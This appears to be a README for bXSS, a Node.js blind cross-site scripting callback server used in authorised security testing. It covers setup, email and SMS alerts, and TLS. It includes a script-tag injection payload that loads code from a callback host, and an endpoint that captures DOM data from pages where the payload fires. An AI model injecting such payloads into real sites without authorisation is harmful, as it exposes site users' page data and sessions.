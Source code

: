 # bXSS

bXSS is a simple Blind XSS application adapted from https://cure53.de/m, you can read about it [here](https://lewisardern.github.io/2017/12/10/blind-xss/).

![Gif of BlindXSS](./Images/cure53.gif)

bXSS will:

* [Email when the resource has been loaded via nodemailer ](./Images/email.jpg)
* [Send a SMS via Twilio](./Images/sms.jpg)
* [Save to disk to review later (If necessary)](./Images/file.jpg)

# Requirements

* A server you control
* A usable domain
* A SSL/TLS Certificate, free from [Lets Encrypt](https://letsencrypt.org) 
* Node.js and Express
* A [Gmail](https://gmail.com) account, to send reports via Nodemailer
* A [Twilio Account](https://www.twilio.com/sms) (Optional) 

# Step-Up

## Default
* cd bXSS && npm install 
* Update The Configuration || Environment Variables 
    * Domain
        * config.url = Domain intended for use e.g ardern.io
        * config.port = Port to run the Node.js app e.g 3030
    * Twilio <b>(Optional, if you don't want to use Twilio just delete all Twilio references from the config)</b> 
        * config.twilio.accountSid =   [Twilio SID](https://support.twilio.com/hc/en-us/articles/223136607-What-is-an-Application-SID)
        * config.twilio.authToken = [Twilio Auth Token](https://support.twilio.com/hc/en-us/articles/223136027-Auth-Tokens-and-how-to-change-them)
        * config.twilio.to = Your telephone number
        * config.twilio.from = [Twilio telephone number](https://support.twilio.com/hc/en-us/articles/223136207-Getting-started-with-your-new-Twilio-phone-number)
    * Gmail
        * config.gmail.user = Gmail Username
        * config.gmail.pass = Gmail Password
        * config.gmail.to = Where you want to send the emails
        * config.gmail.from = Who sent the message, usually Gmail Username
    * Rename configExample.js to config.js
* Start your app (depending on your preference)
    * node app.js
    * pm2 start app.js 
    * nodemon app.js

## Additional Steps

* Obtain a let's Encrypt cert
    * [Manual](https://gist.github.com/davestevens/c9e437afbb41c1d5c3ab)
    * [certbot](https://medium.com/@yash.kulshrestha/using-lets-encrypt-with-express-e069c7abe625)
* I would recommend looking at setting up a [reverse proxy](https://www.nginx.com/resources/glossary/reverse-proxy-server/), for example in [NGINX](https://pastebin.com/nCVSh5iv) and skip the next step as I wouldn't want anyone to run express as root.
* Using Node.js
    * Update Configuration 
        * config.letsEncrypt.TLS = true;
        * config.letsEncrypt.publicKey = $Path/fullchain.pem
        * config.letsEncrypt.privateKey = $Path/privkey.pem
        * config.letsEncrypt.ca = $Path/chain.pem
* Start your app (depending on your preference)
    * node app.js
    * npm2 start app.js 
    * nodemon app.js

# Using

Once the application is funcitonal, you would just identify sites you are authorized to test and start to inject different payloads that will attempt to load your resource, the easiest example is:

```
"><script src="https://example.com/m"></script>
````

The application has three core functions

* POST - /m (captures DOM information)  
* GET - /m (Loads the payload)
* Everything else - Loads alert(1)


# Contribute?

This was more of a fun personal project after seeing the example from [Mario Heiderich's](https://twitter.com/0x6D6172696F) AppSec Europe training and I wanted to have a reason to write more JavaScript and use some ES6. 

This is perfect for my needs, and maybe yours too; I would recommend looking at [Sleepy Puppy](https://github.com/Netflix/sleepy-puppy) or [XSS Hunter](https://xsshunter.com/features) to see if they are appropriate as they are extremly easy to get started with, especially XSS Hunter's online version. 

If you like the project, feel free to contribute or if you want to suggest improvements or notice any problems, file a [issue](https://github.com/LewisArdern/bXSS/issues).
